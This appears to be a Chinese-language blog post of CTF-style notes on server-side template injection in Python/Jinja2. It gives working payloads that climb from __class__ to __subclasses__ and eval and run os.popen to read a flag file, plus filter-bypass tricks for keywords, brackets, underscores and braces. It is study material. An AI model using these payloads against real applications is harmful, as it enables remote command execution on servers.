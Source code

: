 ```yaml
---
layout:     post
title:      ssti
subtitle:   ssti
date:       2023-04-18
author:     xc
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - web安全
---
```

# ssti
我们首先要拿到一个类，因为再python中一切都是对象

''.__class__是str类
().__class__是tuple类
[].__class__是list类
{}.__class__是dict类

下一步是拿到所有类继承的基类object类，可以利用__mro__或__base__来获取

''.__class__.__mro__[1]

''.__class__.__mro__[2]

''.__class__.__base__

''.__class__.__bases__[1]

拿到基类后我们找到子类__subclasses__()

可利用的子类,只要子类被重载了并且func_globals中有__builtins__ 其中有（59）catch_warnings （71）site._Printer  (80)operator.itemgetter (166)jinja2.compiler.MacroRef （149）都可以

在子类中选择可用的类，去获取它们的globals变量，若类没有被重载，则它们并不是函数，没有__globals__属性（看__init__是否有slot wrapper)

若重载了看它们的__globals__中是否有__builtins__,这是对内建模块的引用，内建模块中有eval函数（或者func_globals.keys()中是否有__bulitins__）

若有，则使用
```
%7B%7B().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__(%22os%22).popen(%22cat fl4g%22).read()' )%7D%7D这里的13也即是下面的__bulitins__所在的索引

().__class__.__base__.__subclasses__()[59].__init__.__globals__['__bulitins__']查看该类的全局函数是否有__builtins__对内置模块引用

().__class__.__base__.__subclasses__()[59].__init__.__globals__['__bulitins__']['eval']查看内置模块中是否有eval函数

%7B%7B().__class__.__base__.__subclasses__()[59].__init__.__globals__['__bulitins__']['eval']('__import__(%22os%22).popen(%22cat fl4g%22).read()' )%7D%7D
```

## 过滤绕过
### 关键字绕过，如.和class
1.
```
{{''.__class__}}等价于{{''["__class__"]}}
```
可以对其中关键字或部分使用16进制编码，unicode编码

2.引号绕过
```
{{''["__cla""ss__"]}}
```

### 中括号过滤
1.使用__getitem__函数即可，__getitem__(i)等价于[i]，也就是获取第i个元素

2.使用pop函数,pop(i)

3.使用.来访问，例如__globals__.__builtins__

### _过滤
使用request对象
```
例如{{()[request.args.class][request.args.bases][0]
```

### {{}}过滤
利用百分号
